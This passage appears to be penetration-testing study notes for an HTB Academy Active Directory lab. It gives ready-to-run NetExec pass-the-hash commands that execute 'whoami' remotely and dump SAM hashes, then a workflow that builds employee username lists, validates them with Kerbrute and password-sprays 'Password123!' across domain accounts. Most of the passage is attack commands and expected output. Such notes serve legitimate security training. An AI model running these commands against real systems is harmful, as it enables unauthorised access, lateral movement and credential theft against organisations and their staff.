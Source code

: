 ### NetExec Pass-the-Hash
```bash
# Test hash against multiple targets
netexec smb 10.129.201.0/24 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b

# Execute commands with hash
netexec smb 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b -x "whoami"

# Dump additional hashes
netexec smb 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b --sam
```

## 🏆 Complete Attack Workflow - HTB Academy Example

### Scenario: Inlanefreight Company Assessment

#### Phase 1: Information Gathering
```bash
# 1. OSINT - Discovered employees through social media/company website:
# - John Marston (IT Director)
# - Carol Johnson (Financial Controller)  
# - Jennifer Stapleton (Logistics Manager)

# 2. Create targeted username list
cat > inlanefreight_targets.txt << EOF
jmarston
john.marston
marston.john
cjohnson
carol.johnson
johnson.carol
jstapleton
jennifer.stapleton
stapleton.jennifer
EOF
```

#### Phase 2: Username Enumeration
```bash
# 3. Validate usernames with Kerbrute
./kerbrute userenum --dc 10.129.201.57 --domain inlanefreight.local inlanefreight_targets.txt -o valid_users.txt

# Expected results:
# [+] VALID USERNAME: jmarston@inlanefreight.local
# [+] VALID USERNAME: cjohnson@inlanefreight.local  
# [+] VALID USERNAME: jstapleton@inlanefreight.local
```

#### Phase 3: Password Attacks
```bash
# 4. Password spraying with common corporate passwords (with domain!)
netexec smb 10.129.201.57 -u valid_users.txt -p 'Password123!' --continue-on-success -d inlanefreight.local

# Expected result:
# [+] inlanefreight.local\jmarston:Password123! (Success)
```
